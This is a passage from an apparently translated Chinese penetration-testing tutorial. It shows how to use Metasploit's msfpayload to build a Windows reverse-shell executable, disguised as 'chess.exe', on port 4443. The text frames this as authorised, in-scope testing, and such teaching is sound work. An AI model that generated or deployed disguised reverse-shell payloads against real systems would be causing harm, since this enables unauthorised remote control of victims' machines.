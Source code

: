 正如前面的截图所示，我们的第一次尝试是成功的，从这一点上，我们可以继续使用前面介绍的后期开发技术。请记住，遵守我们工作范围中详述的要求。

# 二进制有效载荷

在 metasploit 工具中，我们能够生成我们自己的二进制有效载荷，这就是我们将在本节中介绍的内容。要查看此选项，请启动 metasploit 工具并输入`msfpayload windows/shell_reverse_tcp O`。最后的`O`将显示可为我们的有效载荷设置的选项。因为我们正在设置一个反向 shell，所以您可能对该选项有很好的了解。以下屏幕截图显示了此命令的输出示例：

![Binary payloads](img/477-1_12_43.jpg)

正如前面的屏幕截图所示，我们有基于 Kali 机器本地机器地址的默认设置。因此，我们真的不需要任何更改，除非我们想要定义一个特定的`LPORT`来退出防火墙。因此，出于我们的目的，我们将保持设置不变。输入`msfpayload LPORT=4443 X > /tmp/chess.exe`。创建文件后，我们将查看文件的详细信息。在窗口中，输入`file /tmp/chess.exe`。

以下屏幕截图显示了这些命令的输出示例：

![Binary payloads](img/477-1_12_44.jpg)

